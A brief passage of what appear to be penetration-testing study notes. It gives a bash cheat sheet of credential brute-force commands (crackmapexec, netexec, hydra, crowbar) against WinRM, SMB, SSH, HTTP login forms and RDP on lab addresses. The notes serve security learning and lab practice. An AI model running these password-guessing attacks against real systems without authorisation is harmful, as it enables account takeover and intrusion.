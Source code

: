 
- check [services footprinting](https://github.com/kiro6/penetration-testing-notes/blob/main/Penetration%20Testing/Footprinting/Services.md)

```bash
crackmapexec winrm 10.129.42.197 -u user.list -p password.list

## this is better
netexec smb 10.129.202.85 -u user.list -p password.list 

# hydra
hydra -L user.list -P password.list ssh://10.129.42.197
hydra -l admin -P wordlist.txt -f SERVER_IP -s PORT http-post-form  "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"
hydra -L wordlist.txt -P wordlist.txt -u -f SERVER_IP -s PORT http-get /

# for openvpn, rdp, sshkey, vnckey
crowbar -b rdp -s xx.xxx.xxx.xxx/32 -u johanna -C <full-mutated-password-list
```
